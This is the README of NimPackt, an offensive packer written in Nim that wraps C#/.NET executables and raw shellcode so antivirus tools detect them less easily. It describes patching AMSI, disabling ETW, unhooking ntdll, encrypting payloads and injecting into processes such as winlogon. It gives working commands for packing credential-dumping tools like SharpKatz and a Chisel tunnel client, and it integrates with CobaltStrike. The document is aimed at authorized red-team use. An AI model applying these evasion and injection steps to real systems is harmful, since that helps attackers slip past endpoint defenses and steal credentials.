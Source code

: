 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

*By Cas van Cooten (@chvancooten)*

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables and raw shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect and reverse engineer. Currently, it has the following features.

- Compiles to `exe` or `dll` file
- Various execution methods: `execute-assembly`, `shinject` (local thread), `remoteShinject` (existing or sacrificial process)
- Unhooking User-mode APIs (`Ntdll`) using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Disabling Event Tracing for Windows (ETW) (recommended for 'execute-assembly' method)
- Patching the Anti-Malware Scan Interface (AMSI) (recommended for 'execute-assembly' method)
- Payload encryption (AES-128 CTR) to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)
- Integrates with CobaltStrike for ezpz payload generation 😎

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to re-pack the binary into position-independent shellcode and launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim nimcrypto
pip3 install pycryptodome argparse
```

### CobaltStrike Plugin 

To install the CobaltStrike plugin, select `Cobalt Strike` -> `Script Manager` from the menu bar, and select `Load`. Make sure to load the `.cna` file from it's original location, otherwise it won't be able to find the NimPackt script files!

## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a [ARGUMENTS]] [-r] [-t INJECTTARGET] [-E] [-f FILETYPE] [-32] [-H] [-nu] [-na] [-ne] [-d] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a [ARGUMENTS], --arguments [ARGUMENTS]
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (default)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection (default "explorer.exe", implies -r)
  -E, --existing        Remote inject into existing process rather than a newly spawned one (default false, implies -r) (WARNING: VOLATILE)

other arguments:
  -f FILETYPE, --filetype FILETYPE
                        Filetype to compile ("exe" or "dll", default: "exe")
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) of executable by compiling it in GUI mode
  -nu, --nounhook       Do NOT unhook user-mode API hooks
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI) (recommended for shellcode)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW) (recommended for shellcode)
  -d, --debug           Enable debug mode (retains .nim source file in output folder).
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```bash
# Pack SharpKatz to accept commands at runtime, patching hooks, AMSI, and ETW while printing verbose messages on runtime
python3 ./NimPackt.py -e execute-assembly -i bins/SharpKatz-x64.exe -v

# Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -na -ne -H -e execute-assembly -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to DLL file that executes in the local thread without patching AMSI or ETW (generally not needed for shellcode)
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -f dll -na -ne

# Pack raw shellcode to execute in a newly spawned Explorer thread (default), enabling verbose log messages in the compiled Nim binary
python3 NimPackt.py -i calc.bin -e shinject -na -ne -r -v

# Pack raw shellcode to execute in the existing Winlogon process (first PID with name 'winlogon.exe')
python3 NimPackt.py -i calc.bin -e shinject -na -ne -r -E -t "winlogon.exe"
```

Binaries are stored in the `output` subfolder of your installation directory. Generated `dll` files should be executed as follows:

```
rundll32 exampleShinjectNimPackt.dll,Update
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed assembly when `execute-assembly` mode is used with `exe` files. This probably relates to C# compiling options, need to investigate this further.
- Shellcode doesn't seem to return correctly over all injection methods. This is generally not a problem for local injection (since the Nim thread can die anyway), but for remote injections it will in most instances cause the process to crash once the shellcode returns. For a sacrificial process this might be okay, but for existing processes (-E) this is not acceptable. Need to look into making shellcode properly return.

## Wishlist

- Provide option to evade sandbox fingerprinting (e.g. by performing calculations for 10-30s)
- Stabilize shellcode execution
- Fix "hard parsing" of arguments passed as embedded arguments (e.g. `-a '-arg=value'` not being accepted by `argparse`)
- Patch ETW by patching the actual function call (after Shellycoat) using [this method](https://gist.github.com/S3cur3Th1sSh1t/0f44b1a12c7eceb8f7be10799ba5018d)